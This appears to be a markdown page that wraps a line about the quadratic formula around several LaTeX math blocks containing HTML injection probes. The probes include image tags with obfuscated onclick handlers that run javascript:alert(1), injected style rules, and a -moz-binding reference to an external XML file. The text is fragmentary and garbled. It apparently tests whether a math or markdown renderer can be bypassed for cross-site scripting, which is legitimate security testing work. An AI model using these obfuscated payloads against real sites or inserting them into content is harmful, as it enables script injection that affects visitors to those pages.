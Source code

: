 \u003E\u003C

When $a \ne 0$, there are two solutions to \(ax^2 + bx + c = 0\) and they are
$$ \u003E\u003C\<a href=# style="position:relative;width:100px;background:#ddffdd;overflow:hidden;">aa</a><img src=m onc\u006Cick=javascript&#x6a;avascript:alert(1)()><style>.pt-3{padding-top: 116px !important;}</style>{}$$

$$ \u003E\u003C\<img class=xlalla src=mmalla id=lkaka style="width:90px">{}$$

<a href=aa.ht style="position:relative;width:100px;background:#ddffdd;overflow:hidden;">mamma</a>

<style>h1{color:blue}</style>
<h1>aa</h1>

$$ \u003E\u003C\<a href=# style="position:relative;width:100px;background:#ddffdd;overflow:hidden;">aa</a><img src=m onc\u006Cick=javascript&#x6a;avascript:alert(1)()><style>body{-moz-binding:url(scramamipt.xml#mycode);}</style>{}$$
